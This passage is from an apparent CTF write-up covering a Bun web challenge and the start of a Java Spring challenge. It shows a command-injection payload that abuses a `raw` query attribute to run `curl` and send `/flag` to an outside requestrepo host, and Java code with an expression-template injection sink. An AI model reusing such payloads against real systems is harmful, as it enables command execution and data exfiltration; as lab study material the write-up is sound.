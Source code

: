 ```js
            await $`echo $(date '+%Y-%m-%dT%H:%M:%S%z') - ${params.url} ::: ${JSON.stringify(counts)} >> ${logFile}`;

            const highlighted = escapeHTML(rawFetched)
                .replace(/LINE/g, "<mark style='color: #06C755'>$&</mark>")
                .replace(/Yahoo!/g, "<mark style='color: #FF0033'>$&</mark>");
            const html = `
                <h1>Your score is... 🐐<${counts.L + counts.Y}</h1>
                <details open>
                    <summary>Result</summary>
                    <blockquote>${highlighted}</blockquote>            
                </details>
            `;
            return new Response(html, {headers: {"Content-Type": "text/html; charset=utf-8"}});
        } else {
            return new Response("🎶😺≡≡≡😺🎶 Happy Happy Happy~")
        }
    }
});

console.log(`😺 on http://localhost:${server.port}`);
```

The goal is to read `/flag`. One imporant thing to consider is that the server is using Bun, which has a custom implementation for shell commands. 

The **intended** solution is to create an object that has a `raw` attribute, which will bypass Bun's shell command escaping. We can do that by creating a URL that has a `raw` attribute, and then exfil the flag using `curl`. The final payload will look like:
```
http://34.146.180.210:3000/chall?url[raw]=$(curl 06sjnkhn.requestrepo.com -F=@/flag)
```

However, we found an **unintended** solution, which turned out to be a Bun 0-day :). I will update the write-up once the vulnerability is patched.

We also found a 0-day bug in [escapeHTML](https://bun.sh/blog/bun-v1.0.36#fixed-crash-using-bun-escapehtml), which could've been used to DoS the server.

**LINECTF{db37c207abbc5f2863be4667129f70e0}**

<a name="heritage"></a>
## Heritage (233 pts, 15 solves) - Web

Description:
```
http://35.200.117.55:20080/
```

Cool challenge written in Java with Spring. We are given an internal app and a gateway that will proxy our requests to the internal app.

The vulnerable part of the code is in the `/api/internal` of the internal app:
```java
public class NameValidator implements ConstraintValidator<ValidateName, String> {
    private static final String REGEX_NAME = "^[a-f\\d]{32}$";
    private static final Pattern PATTERN = Pattern.compile(REGEX_NAME);

    @Override // javax.validation.ConstraintValidator
    public boolean isValid(String value, ConstraintValidatorContext context) {
        if (StringUtils.isEmpty(value) || PATTERN.matcher(value).matches()) {
            return true;
        }
        context.buildConstraintViolationWithTemplate(String.format("%s", value)).addConstraintViolation();
        return false;
    }
```